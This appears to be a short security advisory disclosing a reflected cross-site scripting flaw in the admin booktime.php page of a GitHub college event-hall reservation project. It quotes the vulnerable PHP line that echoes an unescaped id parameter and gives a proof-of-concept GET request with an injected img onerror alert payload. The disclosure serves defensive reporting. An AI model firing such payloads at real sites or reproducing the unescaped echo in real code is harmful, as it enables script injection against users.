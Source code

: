 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS booktime.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/booktime.php

## Code
```php
            <h1 class="logo "><a href="../home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/booktime.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/cb409e79-355a-43da-a429-987d6028106e)


